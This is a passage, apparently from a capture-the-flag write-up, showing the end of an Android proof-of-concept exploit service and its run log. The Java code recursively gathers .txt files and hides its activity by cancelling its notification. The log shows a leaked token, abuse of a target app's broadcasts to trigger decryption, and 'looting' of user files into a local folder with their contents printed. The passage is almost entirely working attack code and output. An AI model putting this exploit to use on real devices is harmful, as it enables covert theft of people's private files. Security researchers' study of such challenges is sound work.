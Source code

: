 ```java
            shown++;  
        }  
    }  
    private List<File> listTxt(File d) {  
        List<File> l = new ArrayList<>();  
        if (d == null || !d.exists()) return l;  
        File[] files = d.listFiles();  
        if (files != null) {  
            for (File f : files) {  
                if (f.isDirectory()) l.addAll(listTxt(f));  
                else if (f.getName().toLowerCase().endsWith(".txt")) l.add(f);  
            }  
        }        return l;  
    }  
  
    private void cleanup() {  
        try {  
            unregisterReceiver(rx);  
        } catch (Exception ignored) {}  
        try {  
            NotificationManager nm = (NotificationManager) getSystemService(Context.NOTIFICATION_SERVICE);  
            nm.cancel(999); // cancel notification  
        } catch (Exception ignored) {}  
        stopSelf();  
        Log.i("PoC", "stealth exploit completed!!");  
    }  
  
    @Override  
    public IBinder onBind(Intent i) {  
        return null;  
    }  
}
```

The logs looks like:
```bash
I  token=8ksec_S3cr3tT0k3n_D0N0tSh4r3
W  cannot close notification panel: Permission Denial: android.intent.action.CLOSE_SYSTEM_DIALOGS broadcast from (pid=4530, uid=10224) requires android.permission.BROADCAST_CLOSE_SYSTEM_DIALOGS.
I  dummy notification posted
I  START_SECURITY sent – waiting SECURITY_STARTED ...
I  DECRYPTION_COMPLETE, looting...
W  cannot close notification panel: Permission Denial: android.intent.action.CLOSE_SYSTEM_DIALOGS broadcast from (pid=4530, uid=10224) requires android.permission.BROADCAST_CLOSE_SYSTEM_DIALOGS.
I  traversing: /storage/emulated/0
I  stolen: file.txt
I  stolen: filetest.txt
I  copied 2 files into /storage/emulated/0/Android/data/om.lautaro.andropseudoexploit/files/loot
I  === file.txt ===
I     asdasd
I  === end ===
I  === filetest.txt ===
I     aaaaaa
I  === end ===
I  stealth exploit completed!!
```

